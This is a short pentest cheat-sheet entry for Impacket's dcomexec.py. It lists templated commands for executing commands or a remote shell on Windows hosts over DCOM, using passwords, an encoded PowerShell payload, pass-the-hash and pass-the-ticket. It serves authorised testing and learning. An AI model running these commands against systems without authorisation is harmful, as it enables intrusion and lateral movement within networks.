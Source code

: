 # dcomexec.py (imp)

% windows, impacket-exec, dcom

#plateform/linux #target/remote #port/445 #protocol/smb #cat/ATTACK/CONNECT  

## desc
```
Execute a command or semi interactive shell without touching the disk or running a new service using DCOM
In case the TCP port 445 is not available, we can use the option -no-output.
```

## execute (creds)
```bash
dcomexec.py -debug -shell-type powershell <domain_fqdn>/<user>:'<password>'@<target_fqdn> <cmd|>
```

## execute powershell encoded (creds)
```bash
dcomexec.py -debug <domain_fqdn>/<user>:'<password>'@<target_fqdn> "powershell -e <powershell_encoded|>"
```

## execute (pth)
```bash
dcomexec.py -debug -shell-type powershell -hashes :<nt_hash> <domain_fqdn>/<user>@<target_fqdn> <cmd|>
```

## execute (ptt)
```bash
KRB5CCNAME=<ccache> dcomexec.py -debug -shell-type powershell -no-pass -k <target_fqdn> <cmd|>
```
